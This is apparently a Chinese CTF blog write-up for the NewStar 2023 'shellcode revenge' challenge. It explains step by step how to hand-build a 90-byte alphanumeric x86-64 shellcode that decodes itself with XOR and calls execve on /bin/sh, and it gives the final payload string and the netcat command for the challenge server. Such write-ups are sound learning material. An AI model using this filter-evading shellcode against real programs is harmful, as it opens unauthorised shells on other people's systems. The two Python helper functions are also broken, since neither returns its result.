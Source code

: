 ```yaml
---
title: newstar2023 week2 - shellcode revenge
date: 2023/10/4 12:00:00
updated: 2024/7/30 10:28:00
tags:
    - shellcode
thumbnail: /assets/newstar2023/regs.png
excerpt: 分析新生赛shellcode，构建90字节的shellcode并成功利用。
---
```


## 文件分析

下载`shellcodere`, 保护全开  
ghidra分析为64位程序

## 解题思路

程序将shellcode读到0x66660000处，并过滤掉所有非大写字母和数字  
这真的是新生赛吗！搓了我好几天

## 准备

先检查寄存器的值都为多少  
![reg_values](/assets/newstar2023/regs.png)

xor主要使用rbx，要清空它；rax和rdx都有特定值要存放，所以用rcx来存基址；
`pop rdi`, `pop rsi`都要搓出来，还有0x3b和sh字符串

程序布局：在可使用的范围内，前段为程序，后端为数据

以下是按字符反汇编解析

## Shellcode分析

```as
exec:
push rdx                         ; R
pop  rcx                         ; Y set base addr
xor  qword ptr [rcx + 0x5a], rbx ; H1YZ
xor  rbx, qword ptr [rcx + 0x5a] ; H3YZ zero out rbx
xor  bl, byte ptr [rcx + 0x49]   ; 2YI xor pivot 1
xor  byte ptr [rcx + 0x4a], bl   ; 0YJ
xor  byte ptr [rcx + 0x4e], bl   ; 0YN 2* 48 -> 1a
xor  byte ptr [rcx + 0x51], bl   ; 0YQ
xor  byte ptr [rcx + 0x59], bl   ; 0YY 2* zero out last byte
xor  bl, byte ptr [rcx + 0x49]   ; 2YI zero out bl
xor  rbx, qword ptr [rcx + 0x4a] ; H3YJ set rbx value
xor  rbx, qword ptr [rcx + 0x52] ; H3YR xor to get /bin/sh
push rbx                         ; S
push rsp                         ; T point to /bin/sh
;now bl is 2f
xor  bl, byte ptr [rcx + 0x4b]   ; 2YK xor pivot 2
xor  byte ptr [rcx + 0x38], bl   ; 0Y8 make 0x5e
push rdi                         ; W
pop  rdx                         ; Z zero out rdx
xor  byte ptr [rcx + 0x39], bl   ; 0Y9 make 0x5f
xor  al, 0x4f                    ; 4O
xor  al, 0x44                    ; 4D
xor  al, 0x30                    ; 40 make al equals to 0x3b
push rdi                         ; W
pop rsi                          ; G is xored by 0Y8; zero out rsi
pop rdi                          ; F is xored by 0Y9; point to /bin/sh
;now bl is 19
xor bl, byte ptr [rcx + 0x54]    ; 2YT xor pivot 3
xor byte ptr [rcx + 0x43], bl    ; 0YC make 0x0f
xor byte ptr [rcx + 0x44], bl    ; 0YD make 0x05
syscall                          ; OE is xored by 0YC0YD
```

```
data section:
rcx + 'E': 000 ; just padding; shrink it to get a shorter shellcode
rcx + 'H': 3   ; xor pivot 2
rcx + 'I': R   ; xor pivot 1
rcx + 'J': H607H60R ; xor part 1
rcx + 'R': 5TYY5EXR ; xor part 2
rcx + 'Z': \0  ; store rbx later
```

最后shellcode长度：**90字节**

{% notel green fa-arrow-right tips %}
1. gdb在调试shellcode的时候建议用si，ni会直接运行到底
2. 网上资料可能不全，需要自己摸索，比如'40'就是自己反汇编才知道的
3. 字符间换来换去还挺麻烦的，用用下面的函数
{% endnotel %}

```python
def toHex(s: str):
    ret = ''
    for c in s:
        ret += hex(ord(c))[2:]

def toChr(s: str):
    ret = ''
    for i in range(0, len(s), 2):
        ret += chr(int(s[i:i+2], 16))
```
## EXPLOIT

`nc node4.buuoj.cn 28975`

*RYH1YZH3YZ2YI0YJ0YN0YQ0YY2YIH3YJH3YRST2YK0Y8WZ0Y94O4D40WGF2YT0YC0YDOE0003RH607H60R5TYY5EXR*  
*cat flag*

## 参考资料

[short shellcode](https://blog.csdn.net/A951860555/article/details/110936441)  
[alphanumeric shellcode编写指南](https://dl.packetstormsecurity.net/papers/shellcode/alpha.pdf)  
[在线汇编/反汇编器](http://shell-storm.org/online/Online-Assembler-and-Disassembler/)  
[好用的在线异或](http://i.goto327.top:85/Tools1/XOR.aspx)

Done.
